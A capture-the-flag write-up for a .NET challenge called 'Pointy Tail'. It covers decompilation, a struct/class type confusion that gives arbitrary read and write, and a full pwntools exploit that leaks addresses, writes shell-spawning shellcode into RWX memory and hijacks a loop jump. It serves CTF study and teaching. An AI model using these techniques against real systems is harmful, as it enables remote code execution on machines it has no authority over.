










## Pointy Tail


### Description
>Author: Neobeo\
>Types in .NET are so confusing: should a Point type be a struct or a class? Let's have one of each, just to compare.\
>nc fun.chall.seetf.sg 50007\
>MD5: 211020d68a6243fa5572b360b27eb8d


### Introduction
In this challenge we are given 6 files including the Dockerfile.\
The challenge file is in *pointytail.dll*. First step here we analyze what file is it just type command

```bash
$ file pointytail.dll
# pointytail.dll: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

The file is compiled by .NET framework, well I never have experience on exploiting .NET before xd, so let's give a shot.\
Okay, next look at the Dockerfile is it the server running on windows or on linux.

```Docker
FROM mcr.microsoft.com/dotnet/runtime:6.0-focal-amd64
WORKDIR /app

RUN useradd -m chall
RUN apt update
RUN apt install -y socat

COPY flag.txt .
COPY pointytail.dll .
COPY pointytail.runtimeconfig.json .

RUN chmod +r flag.txt
RUN chmod +r pointytail.dll
RUN chmod +r pointytail.runtimeconfig.json

USER chall

ENTRYPOINT socat tcp-l:1336,fork,reuseaddr exec:"dotnet pointytail.dll"
```

The docker pull from mcr.microsoft, at first I thought that's the windows image. But the docker using apt so it's a linux image.\
The file running by dotnet, so we need to install dotnet first on our machine. For the installation guide you can see one of tutorial [Here](https://docs.microsoft.com/en-us/dotnet/core/install/linux-ubuntu).\
Next, after finished install dotnet just simply run command like this to execute the challenge.

```
$ dotnet pointytail.dll
```


### The Bug
For finding the bug, we need to decompile the dll files, to do that we can use decompiler tools [ILSpy](https://github.com/icsharpcode/ILSpy).\
Just download the release file and run the ILSpy.


```c#
private static void Main()
{
	PointStruct pointStruct = default(PointStruct);
	pointStruct.x = rnd.NextDouble();
	pointStruct.y = rnd.NextDouble();
	PointStruct s = pointStruct;
	Main2(ref s);
}

```

The **Main()** function declare the *PointStruct* and fill it with double value, and then call **Main2(ref s)** function.\
The **PointStruct** it's look like this.

```c#
private struct PointStruct
{
	public double x;

	public double y;
}
```

Alright, not so complex struct let's move to *Main2()*

```c#
private static void Main2(ref PointStruct s)
{
	PointClass c = new PointClass
	{
		x = rnd.NextDouble(),
		y = rnd.NextDouble()
	};
	Main3(ref s, ref c);
}
```
This function declare **PointClass** and fill with double value again, the Class it's look like this:
```c#
private class PointClass
{
	public double x;

	public double y;
}
```

Next **Main3()** function:
```c#
private static void Main3(ref PointStruct s, ref PointClass c)
{
	Console.WriteLine("Which is better, a struct or a class? Why not both!");
	while (true)
	{
		string[] array = Console.ReadLine().Split(' ', (StringSplitOptions)0);
		string text = array[0];
		if (!(text == "s"))
		{
			if (text == "c")
			{
				c.x = double.Parse(array[1]);
				c.y = double.Parse(array[2]);
			}
			else
			{
				Console.WriteLine("s = ({0}, {1})", (object)s.x, (object)s.y);
				Console.WriteLine("c = ({0}, {1})", (object)c.x, (object)c.y);
			}
		}
		else
		{
			s.x = double.Parse(array[1]);
			s.y = double.Parse(array[2]);
		}
	}
}
```

The challenge will be start from this function, honestly i dont understand too much about C#. But this code not too complicated, the program will ask our input, if our input start with **s** followed by the double value, then it will fill the object of **s**, this same with object of **c**. And if our input not started with **s** or **c**, it will print the result.

```bash
$ dotnet pointytail.dll
$ Which is better, a struct or a class? Why not both!
$ 1
$ s = (6.93762983151493E-310, 6.95307569920877E-310)
$ c = (0.9251204335393668, 0.26444549835642683)
$ c 0 0
$ 1
$ s = (6.93762983151493E-310, 6.95307569920877E-310)
$ c = (0, 0)

````
Well, honestly i dont have idea where the bug is from just read the code. But after try some random input, I found an interesting error while debugging at gdb.\
For debugging I use script like this.
```py
from pwn import *
from sys import *


HOST = "fun.chall.seetf.sg"
PORT = 50007
p = process(["dotnet", "pointytail.dll"])
print(util.proc.pidof(p))
p.interactive()
```
Then just attach the pidof at gdb. When we Input `s 0 0` the error show Index was out of bound.\

Next here I try to convert the first value of **s** from decimal to hex to see what is that.

```py
def do2hex(f):
	return (struct.unpack('<Q', struct.pack('<d', f))[0])

p.sendline(b'1')
p.recvuntil(b's = ')

res = (p.recvline()[1:-2]).split(b', ')
s1 = do2hex(float(res[0]))
s2 = do2hex(float(res[1]))
print(hex(s1), hex(s2))
p.interactive()
```


We got Leak an address, because of this leak now I understand a bit about the code, from what I got, in **Main3()** var s represent as **\*\*s**, you can see again in **Main()** function, `PointStruct s = pointStruct;` and the pointStruct is `PointStruct pointStruct = default(PointStruct);`. So in **Main3()** function when the program print `(object)s.x` instead print the value of **pointStruct.x** it will print the address **pointStruct** itself. So that var **s** will be pointing to var **c**.\

Oke let me simply this.\
var **s** its a pointer contains value of var **c**. So with this we found the bug where we can arbitary write and read.\
To validate that let's see at gdb.

As you can see from picture above we can do arbitary write and read with first index of var **s**, just change it to address where we want to write or read because it's pointing to var **c**.\

### Gain Shell
We can do arbwrite and arbread and we got leak stack and the mapped area. How to get shell?\
If you check vmmap, there's many rwxp address there from because of **dotnet**, we can use one of that address to write shellcode.\
Because we have stack address, we can leak one of rwxp address from stack. Luckily we have one near the address leak we have.


The offset to the rwxp will be same, With this now we have the rwxp address.
```py
def do2hex(f):
	return (struct.unpack('<Q', struct.pack('<d', f))[0])

def hex2do(f):
	return struct.unpack('<d', f)[0]
p.sendline(b'a')
p.recvuntil(b's = ')

res = (p.recvline()[1:-2]).split(b', ')
leak = do2hex(float(res[0]))
stack = do2hex(float(res[1]))
print(hex(leak), hex(stack))


arg1 = hex2do(p64(leak-8))
arg2 = hex2do(p64(stack))
p.sendline(f"s {arg1} {arg2}")
p.sendline(b'1')
p.recvuntil(b'c = ')
p.recvuntil(b'c = ')
res = p.recvline()[1:-2].split(b', ')
rwxp = do2hex(float(res[0]))-0xe9340
print("rwxp: ", hex(rwxp))
```
Next, because the program run on while(1) loop, we need to find address when it jump back.\

Now with this we just need to put our shellcode to rwxp, and the overwrite the jump address to our shellcode.\
Because we can just write 8 bytes, so we need to divide our shellcode.
```py
sc = asm(shellcraft.sh())
chunks, chunk_size = len(sc), len(sc)//6
sc = [ sc[i:i+chunk_size] for i in range(0, chunks, chunk_size) ]
print(sc)

target = rwxp
target_jmp = rwxp+0x14b95
arg1 = hex2do(p64(target-8))
arg2 = hex2do(p64(stack))
p.sendline(f"s {arg1} {arg2}")

payload = b'\x90'*8
write1 = hex2do((payload))
write2 = hex2do((payload))

p.sendline(f"c {write1} {write2}")

#Write Shellcode
for i in range(0,len(sc),2):
	target = rwxp+((i+1)*8)
	arg1 = hex2do(p64(target))
	arg2 = hex2do(p64(stack))
	p.sendline(f"s {arg1} {arg2}")
	
	write1 = hex2do(sc[i])
	write2 = hex2do(sc[i+1])
	p.sendline(f"c {write1} {write2}")


shell = (asm(f"""
	nop
	nop
	nop
	nop
	mov rbx, {rwxp}
	call rbx
	"""
	))
chunks, chunk_size = len(shell), len(shell)//2
shell = [ shell[i:i+chunk_size] for i in range(0, chunks, chunk_size) ]

#Overwrite jump while(1) to call rbx
for i in range(0,len(shell),2):
	target = target_jmp
	arg1 = hex2do(p64(target-8))
	arg2 = hex2do(p64(stack))
	p.sendline(f"s {arg1} {arg2}")
	
	write1 = hex2do(shell[i])
	write2 = hex2do(shell[i+1])
	p.sendline(f"c {write1} {write2}")
```
Now with this we success gain the shell.


Next run it on nc service, we got some problem, because the environtment is different so the offset its different.\

The offset on local is 0x9340 and on server is 0x92b0, with this just change the offset from 0xe9340 to 0xe92b0 to get correct rwxp address.
